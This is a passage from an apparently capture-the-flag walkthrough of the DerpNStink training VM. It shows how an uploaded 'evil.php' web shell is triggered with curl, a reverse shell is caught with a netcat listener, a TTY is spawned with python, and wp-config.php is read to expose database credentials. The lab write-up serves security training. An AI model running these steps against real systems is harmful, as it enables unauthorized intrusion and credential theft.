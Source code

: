 As we see the change was successful.

![](/assets/images/derpnstink/screenshot-12.png)

Then we set up a netcat listener on the attacking machine and execute the curl request.

```bash
root@kali:~$ curl derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/evil.php
```

And we have a shell, then we spawn for a pseudo TTY shell, as shown below:

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.147] 60708
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
 23:55:02 up  2:26,  0 users,  load average: 0.12, 0.07, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DeRPnStiNK:/$ hostname
hostname
DeRPnStiNK
```

After we list the MySQL credentials for the wordpress CMS.

```bash
www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php
...
define('DB_NAME', 'wordpress');                     
                                                    
/** MySQL database username */                 
define('DB_USER', 'root');                 
                                       
/** MySQL database password */                  
define('DB_PASSWORD', 'mysql');                  
                                            
/** MySQL hostname */                       
define('DB_HOST', 'localhost');
...
```
Then we list the credentials of the wordpress users.
